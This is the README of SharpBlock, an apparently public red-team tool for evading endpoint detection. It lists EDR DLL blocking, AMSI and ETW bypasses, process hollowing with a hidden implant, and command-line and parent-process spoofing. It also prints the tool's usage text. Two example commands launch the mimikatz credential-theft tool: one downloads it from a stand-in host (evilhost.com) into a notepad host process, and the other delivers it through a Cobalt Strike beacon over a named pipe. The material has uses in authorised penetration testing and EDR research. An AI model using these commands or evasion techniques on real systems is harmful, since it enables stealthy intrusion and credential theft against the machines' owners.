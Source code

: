 # SharpBlock
A method of bypassing EDR's active projection DLL's by preventing entry point execution.  

## Features

* Blocks EDR DLL entry point execution, which prevents EDR hooks from being placed.
* Patchless AMSI bypass that is undetectable from scanners looking for Amsi.dll code patches at runtime.
* Host process that is replaced with an implant PE that can be loaded from disk, HTTP or named pipe (Cobalt Strike)
* Implanted process is hidden to help evade scanners looking for hollowed processes.
* Command line args are spoofed and implanted after process creation using stealthy EDR detection method.
* Patchless ETW bypass 

```
SharpBlock by @_EthicalChaos_
  DLL Blocking app for child processes x64

  -e, --exe=VALUE            Program to execute (default cmd.exe)
  -a, --args=VALUE           Arguments for program (default null)
  -n, --name=VALUE           Name of DLL to block
  -c, --copyright=VALUE      Copyright string to block
  -p, --product=VALUE        Product string to block
  -d, --description=VALUE    Description string to block
  -s, --spawn=VALUE          Host process to spawn for swapping with the target exe
  -ppid=VALUE                Parent process ID for spawned child (PPID Spoofing)
  -w, --show                 Show the lauched process window instead of the
                               default hide
      --disable-bypass-amsi  Disable AMSI bypassAmsi
      --disable-bypass-cmdline
                             Disable command line bypass
      --disable-bypass-etw   Disable ETW bypass
      --disable-header-patch Disable process hollow detection bypass
  -h, --help                 Display this help
  ```

## Examples

### Launch mimikatz over HTTP using notepad as the host process, blocking SylantStrike's DLL

```
SharpBlock -e http://evilhost.com/mimikatz.bin -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
```

### Launch mimikatz using Cobalt Strike beacon over named pipe using notepad as the host process, blocking SylantStrike's DLL

```
execute-assembly SharpBlock.exe -e \\.\pipe\mimi -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
upload_file /home/haxor/mimikatz.exe \\.\pipe\mimi
```
*Note, for the `upload_file` beacon command, load upload.cna into Cobalt Strike's Script Manager*



Accompanying Blog Posts: 
 * https://ethicalchaos.dev/2020/05/27/lets-create-an-edr-and-bypass-it-part-1/
 * https://ethicalchaos.dev/2020/06/14/lets-create-an-edr-and-bypass-it-part-2/
 * https://www.pentestpartners.com/security-blog/patchless-amsi-bypass-using-sharpblock/
 
